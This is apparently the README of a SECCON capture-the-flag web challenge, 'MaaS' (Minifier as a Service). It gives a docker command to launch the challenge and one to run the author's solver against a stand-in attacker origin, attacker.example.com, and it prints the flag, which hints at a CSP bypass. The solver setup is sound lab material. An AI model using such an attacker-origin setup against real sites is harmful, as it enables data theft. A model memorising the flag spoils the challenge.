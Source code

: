 # [web] MaaS

## Description

Minifier as a Service

- `http://maas.seccon.games:3000`

[maas](files/maas)

## Usage

Launch a challenge server:

```
cd build
docker compose up
```

Run the author's solver:

```
docker run -it \
    -e SECCON_BASE_URL=http://localhost:3000 \
    -e ATTACK_BASE_URL=http://attacker.example.com \
    -p 8080:8080 --network=host \
    (docker build -q ./solver)
```

where `http://attacker.example.com` is an origin forwarded to `http://localhost:8080`.

## Flag

```
SECCON{csp_bypa55_is_a_type_0f_puzzle_games_for_h4ckerS}
```
